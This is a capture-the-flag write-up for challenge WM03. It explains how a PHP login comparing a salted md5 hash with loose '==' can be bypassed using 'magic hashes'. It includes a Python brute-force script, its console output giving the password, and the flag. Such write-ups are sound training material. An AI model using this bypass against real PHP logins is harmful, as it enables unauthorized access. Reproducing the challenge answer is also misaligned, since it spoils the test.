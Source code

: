 # WM03
## BRIEFING
Visit the site at https://cfta-wm03.allyourbases.co and find a way to bypass the password check.

## Solution

The main page of the website asks us for a password to login.

<img src="wm03_login.png" width="350">

If we inspect the source code we discover the login function running on the back-end:

```php

        <!--
        TODO: remove, taken from OSS project, login contains:
        return function ($event) {
            require_once("flag.php");
            $hash = "0e747135815419029880333118591372";
            $salt = "e361bfc569ba48dc";
            if (isset($event['password']) && is_string($event['password'])) {
                if (md5($salt . $event['password']) == $hash) {
                    return $flag;
                }
            }
            return "Incorrect";
        };
        -->
```

This is a case of magic hashes, which take advantage of a loose equivalency check. That is, in PHP, the `$hash` value of `0e747135815419029880333118591372` will be interpreted as an integer, specifically 0 to the power of 747135815419029880333118591372 when being compared with `==` instead of `===`. The `===` would require strict string equivalency, but since the function uses `==`, our goal is to produce another hash that begins with `0e` and only contains digits thereafter.

We can write a python script to find such a password for us. We'll have to use the provided salt and append characters to it until we find a string that produces a magic hash via the `md5` function.

```py
import hashlib
import re
import random
import itertools

_rex = re.compile('^0+e\d*$')

starter = "e361bfc569ba48dc"
alphabetsoup = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()"

found = False
while not found:
    for j in range(50):
        for possible_password in itertools.permutations(alphabetsoup,j):
            sub = starter + ''.join(possible_password)
            #print sub
            check = hashlib.md5(sub).hexdigest()
            if _rex.match(check) != None:
                print "You're a hero"
                print "The password is: ", ''.join(possible_password)
                found = True
                break
        if found:
            break
```

Running the script, we get:
```console
root@osboxes:~/Downloads/wm03# python solve.py 
You're a hero
The password is:  cqZa
```

We enter `cqZa` as the password and get the flag. Note: There are many possible valid passwords, this was just the first one I found.

<img src="wm03_flag.png" width="350">

The flag is **theLOOSEtheMATH&theTRUTHY**.
